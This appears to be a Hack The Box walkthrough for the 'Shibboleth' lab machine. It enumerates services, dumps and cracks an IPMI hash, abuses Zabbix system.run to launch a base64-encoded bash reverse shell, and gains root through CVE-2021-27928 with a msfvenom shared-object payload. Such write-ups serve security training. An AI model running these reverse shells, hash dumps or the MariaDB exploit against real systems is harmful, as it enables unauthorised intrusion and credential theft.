






# Shibboleth
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.124 --min-rate 1000            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-07 16:58 GMT
Warning: 10.10.11.124 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.124 (10.10.11.124)
Host is up (0.17s latency).
Not shown: 65181 closed tcp ports (conn-refused), 353 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 87.95 seconds

```
```
└─$ nmap -Pn -p80 -sC -sV 10.10.11.124 --min-rate 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-07 16:58 GMT
Nmap scan report for 10.10.11.124 (10.10.11.124)
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.06 seconds
                                                              
```
```
└─$ sudo nmap -sU -Pn -F -sC -sV 10.10.11.124           
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-08 16:42 GMT
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up (0.17s latency).
Not shown: 82 closed udp ports (port-unreach)
PORT      STATE         SERVICE       VERSION
9/udp     open|filtered discard
19/udp    open|filtered chargen
53/udp    open|filtered domain
136/udp   open|filtered profile
497/udp   open|filtered retrospect
520/udp   open|filtered route
623/udp   open          asf-rmcp
626/udp   open|filtered serialnumberd
1029/udp  open|filtered solid-mux
1900/udp  open|filtered upnp
2048/udp  open|filtered dls-monitor
5353/udp  open|filtered zeroconf
9200/udp  open|filtered wap-wsp
10000/udp open|filtered ndmp
17185/udp open|filtered wdbrpc
49181/udp open|filtered unknown
49191/udp open|filtered unknown
65024/udp open|filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port623-UDP:V=7.94%I=7%D=11/8%Time=654BBACD%P=x86_64-pc-linux-gnu%r(ipm
SF:i-rmcp,1E,"\x06\0\xff\x07\0\0\0\0\0\0\0\0\0\x10\x81\x1cc\x20\x008\0\x01
SF:\x97\x04\x03\0\0\0\0\t");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 209.51 seconds
```

- Web server


- `gobuster`
```
└─$ gobuster dir -u http://shibboleth.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php --no-error

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shibboleth.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 59474]
/blog.html            (Status: 200) [Size: 19196]
/assets               (Status: 301) [Size: 317] [--> http://shibboleth.htb/assets/]
/forms                (Status: 301) [Size: 316] [--> http://shibboleth.htb/forms/]
/changelog.txt        (Status: 200) [Size: 499]

```

- `vhosts`
```
└─$ wfuzz -u http://shibboleth.htb/ -H 'Host: FUZZ.shibboleth.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 26
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shibboleth.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000099:   200        29 L     219 W      3684 Ch     "monitor"
000000346:   200        29 L     219 W      3684 Ch     "monitoring"
000000390:   200        29 L     219 W      3684 Ch     "zabbix"
```

- `zabbix/monitoring/monitor.shibboleth.htb`




## Foothold
- We saw port `623`, which looks like [IPMI](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi)
  - Let's enumerate the version
  - We can use `nmap` or `msfconsole`'s `auxiliary/scanner/ipmi/ipmi_version`
```
└─$ sudo nmap -sU --script ipmi-version -p 623 10.10.11.124
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-08 17:09 GMT
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up (0.21s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version: 
|   Version: 
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0

Nmap done: 1 IP address (1 host up) scanned in 0.92 seconds

```

- It's a version `2.0`
  - We can start with [password hash retrieval](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi#vulnerability-ipmi-2.0-rakp-authentication-remote-password-hash-retrieval)
  - We can use `msfconfole`'s `auxiliary/scanner/ipmi/ipmi_dumphashes`
    - or [impiPwner](https://github.com/c0rnf13ld/ipmiPwner)
```
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.10.11.124
rhosts => 10.10.11.124
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > options

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                  Current Setting                                                    Required  Description
   ----                  ---------------                                                    --------  -----------
   CRACK_COMMON          true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                      no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                         no        Save captured password hashes in john the ripper format
   PASS_FILE             /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS                10.10.11.124                                                       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 623                                                                yes       The target port
   SESSION_MAX_ATTEMPTS  5                                                                  yes       Maximum number of session retries, required on certain BMCs (HP iLO 4, etc)
   SESSION_RETRY_DELAY   5                                                                  yes       Delay between session retries in seconds
   THREADS               1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE             /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:cdaffa8c82010000ceabd3a662a18b669e64f57404e391d9ea9b3ead1395fcd29d98ed1616136ec4a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:3aa06d6cc91fba15a30dd71348d2a3bd96cc183e
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
```
└─$ sudo python3 ipmipwner.py --host 10.10.11.124
[*] Checking if port 623 for host 10.10.11.124 is active
[*] Using the list of users that the script has by default
[*] Brute Forcing
[*] Number of retries: 2
[*] The username: Administrator is valid                                                                                    
[*] The hash for user: Administrator
   \_ $rakp$a4a3a2a0020d0000b82f950202e57081b2517321814ca29f0080a248fecd3f6b8d9b5127c0e0a46fa123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$475056be7a2b7819f6612dae65164ef8a3f6b781
```
- We found the hash, let's crack it
  - Remove `$rakp$`
  - Replace `$` with `:`

```
└─$ hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt
<SNIP>
a4a3a2a0020d0000b82f950202e57081b2517321814ca29f0080a248fecd3f6b8d9b5127c0e0a46fa123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:475056be7a2b7819f6612dae65164ef8a3f6b781:ilovepumkinpie1
<SNIP>
```

- We can login to `zabbix`
  - `Administrator:ilovepumkinpie1`



- We can spawn a reverse shell
  - `http://zabbix.shibboleth.htb/hosts.php` or `Configuration -> Hosts -> shibboleth.htb`
  - Then click `Items`, which will change the page
    - You will see `Create item` on the top right corner


- Now, we have to create an item
  - Select a key `system.run[]`





- Let's click `Test`
  - We have our execution




- Let's get reverse shell
  - There was an issue with how `zabbix` handles special chars, so I had to encode the payload
```
└─$ echo "bash  -i >& /dev/tcp/10.10.16.4/6666 0>&1 " | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNC82NjY2IDA+JjEgCg==
```

- Now let's run it
  - `system.run[echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNC82NjY2IDA+JjEgCg== | base64 -d | bash]`
  - We receive connection, but it dies
  - We can see `zabbix` called `exit`
```
└─$ nc -vlnp 6666
listening on [any] 6666 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.124] 54716
bash: cannot set terminal process group (13350): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@shibboleth:/$ exit
```

- We have to add `nowait` option, to `system.run[]`
  - [Documentation](https://www.zabbix.com/documentation/5.0/en/manual/config/items/itemtypes/zabbix_agent)
  - `system.run[echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNC82NjY2IDA+JjEgCg== | base64 -d | bash, nowait]`
  - And we get our reverse shell



## User
- We have a single user `ipmi-svc`
```
zabbix@shibboleth:/$ ls /home/
ipmi-svc

```
- If we test for password-reuse it works
  - The password we got from `impi`
    - `ilovepumkinpie1`
  - We can `su` as `impi-svc`
```
zabbix@shibboleth:/$ su - ipmi-svc
Password: 
ipmi-svc@shibboleth:~$ 
```

## Root
- `netstat`
```
ipmi-svc@shibboleth:~$ netstat -tupln
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:10050           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:10051           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::10050                :::*                    LISTEN      -                   
tcp6       0      0 :::10051                :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.1:161           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:623             0.0.0.0:*                           -                   
udp6       0      0 ::1:161                 :::*                                -        
```

- We have a `mysql` running localy
  - Let's check it
  - Since it's related to `zabbix`, we have to check `zabbix_server.conf`
```
ipmi-svc@shibboleth:~$ ls -lha /etc/zabbix
total 100K
drwxr-xr-x  4 root     root     4.0K Nov  8  2021 .
drwxr-xr-x 96 root     root     4.0K Nov  8  2021 ..
-r--------  1 zabbix   zabbix     33 Apr 24  2021 peeesskay.psk
drwxr-xr-x  2 www-data root     4.0K Apr 27  2021 web
-rw-r--r--  1 root     root      15K May 25  2021 zabbix_agentd.conf
-rw-r--r--  1 root     root      16K Oct 18  2021 zabbix_agentd.conf.dpkg-dist
drwxr-xr-x  2 root     root     4.0K Apr 27  2021 zabbix_agentd.d
-rw-r-----  1 root     ipmi-svc  22K Apr 24  2021 zabbix_server.conf
-rw-r-----  1 root     ipmi-svc  22K Oct 18  2021 zabbix_server.conf.dpkg-dist

```

- We can filter out the comments
```
ipmi-svc@shibboleth:/etc/zabbix$ cat zabbix_server.conf | grep -v '^#' | grep .
LogFile=/var/log/zabbix/zabbix_server.log
LogFileSize=0
PidFile=/run/zabbix/zabbix_server.pid
SocketDir=/run/zabbix
DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh
SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
Timeout=4
AlertScriptsPath=/usr/lib/zabbix/alertscripts
ExternalScripts=/usr/lib/zabbix/externalscripts
FpingLocation=/usr/bin/fping
Fping6Location=/usr/bin/fping6
LogSlowQueries=3000
StatsAllowedIP=127.0.0.1
```

- Let's connect to database
  - Nothing interesting there
```
ipmi-svc@shibboleth:/etc/zabbix$ mysql -u zabbix -pbloooarskybluh
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 933
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| zabbix             |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> 

```

- If we google for `10.3.25-MariaDB exploit/vulnerability` we find [CVE-2021-27928](https://www.exploit-db.com/exploits/49765)
  - [PoC](https://github.com/Al1ex/CVE-2021-27928)
  - We need a shared object (`so`)
```
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.4 LPORT=7777 -f elf-so -o CVE-2021-27928.so 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: CVE-2021-27928.so
```

- We exploit `wsrep_provider`
```
ipmi-svc@shibboleth:/dev/shm$ wget 10.10.16.4/CVE-2021-27928.so
--2023-11-08 17:54:34--  http://10.10.16.4/CVE-2021-27928.so
Connecting to 10.10.16.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 476 [application/octet-stream]
Saving to: ‘CVE-2021-27928.so’

CVE-2021-27928.so                                          100%[========================================================================================================================================>]     476  --.-KB/s    in 0.002s  

2023-11-08 17:54:35 (277 KB/s) - ‘CVE-2021-27928.so’ saved [476/476]
```
```
ipmi-svc@shibboleth:/dev/shm$ mysql -u zabbix -pbloooarskybluh -e 'SET GLOBAL wsrep_provider="/dev/shm/CVE-2021-27928.so";'
ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during query
```

- And we have our `root` shell

